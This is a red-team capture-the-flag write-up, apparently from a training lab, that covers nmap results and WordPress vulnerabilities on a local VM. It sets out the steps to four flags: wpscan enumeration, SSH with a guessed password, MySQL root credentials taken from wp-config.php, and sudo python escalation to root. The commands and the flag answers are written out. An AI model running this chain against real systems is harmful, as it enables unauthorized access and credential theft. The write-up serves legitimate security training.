

# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
---
## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

**Nmap scan report for 192.168.1.1**
Host is up (0.00058s latency).
Not shown: 995 filtered ports

**PORT     STATE SERVICE       VERSION**\
135/tcp  open  msrpc         Microsoft Windows RPC\
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn\
445/tcp  open  microsoft-ds?\
2179/tcp open  vmrdp?\
3389/tcp open  ms-wbt-server Microsoft Terminal Services\
MAC Address: 00:15:5D:00:04:0D (Microsoft)\
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows\
**Nmap scan report for 192.168.1.100**\
Host is up (0.00089s latency).\
Not shown: 998 closed ports

**PORT     STATE SERVICE VERSION**\
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)\
9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)\
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)\
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.105**/
Host is up (0.00052s latency).\
Not shown: 998 closed ports

**PORT   STATE SERVICE VERSION**\
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)\
80/tcp open  http    Apache httpd 2.4.29\
MAC Address: 00:15:5D:00:04:0F (Microsoft)\
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.110**\
Host is up (0.00062s latency).\
Not shown: 995 closed ports

**PORT    STATE SERVICE     VERSION**\
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
111/tcp open  rpcbind     2-4 (RPC #100000)  
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
MAC Address: 00:15:5D:00:04:10 (Microsoft)\
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.115**\
Host is up (0.0014s latency).\
Not shown: 995 closed ports

**PORT    STATE SERVICE     VERSION**\
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
111/tcp open  rpcbind     2-4 (RPC #100000)\
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
MAC Address: 00:15:5D:00:04:11 (Microsoft)\
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.90**\
Host is up (0.0000080s latency).\
Not shown: 999 closed ports

---

### This scan identifies the services below as potential points of entry:
- Target 1 
List of Exposed Services
PORT    STATE SERVICE     VERSION\
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
111/tcp open  rpcbind     2-4 (RPC #100000)\
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

### The following vulnerabilities were identified on Target 1:

 ### List of Critical Vulnerabilities
- WordPress XMLRPC GHOST Vulnerability Scanner - CVE-2015-0235
- Wordpress XMLRPC DoS
- Wordpress XML-RPC Username/Password Login Scanner
- Wordpress Pingback Locator - CVE-2013-0235
- Wordpress XML-RPC Pingback API

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - First, the Wordpress server was ennumerated with WPSCAN
          The user accounts were found in the results as well as five vunerabilities.
          The accounts were michael and steven
          The password for michael was easily guessed as : michael, revealing no password
          requirements were being enforced.  wpscan was also able to crack steven's password.
        
        wpscan --url 192.168.1.110/wordpress/ -e
        ssh michael@192.168.1.110
        password:michael
        cd /var/www/html
        nano service.html
        

   - flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Using the find command the 2nd flag was revealed to be in /var/www/
        find / -iname flag*
        cd /var/www
        cat flag2.txt

      
      
  -  flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
    Searching the /var/www/html directory revealed the wp-config.php file.  Searching that file
    revealed the root password for the MySQL database 'wordpress'.  Using the MySQL credentials
    allowed searching the tables 'wpcomments' and 'wpusers' which revealed a flag and two users hashes 
    respectively.  
    
   mysql -u root -p -h 127.0.0.1
   use wordpress;
   show tables
   select * from wp_comments
   select * from wp_users

 
      
      
  -  flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**

   - Using Steven's password, escalation was achived.  Then using python, root was achived
      allowing full access to all directories.  A find was performed, revealing a final flag file 
      in /root/flag4.txt

      su steven
      pink84
      sudo python -c 'import pty;pty.spawn("/bin/bash")'
      find / -iname flag*
      cd /root/
      cat flag4.txt

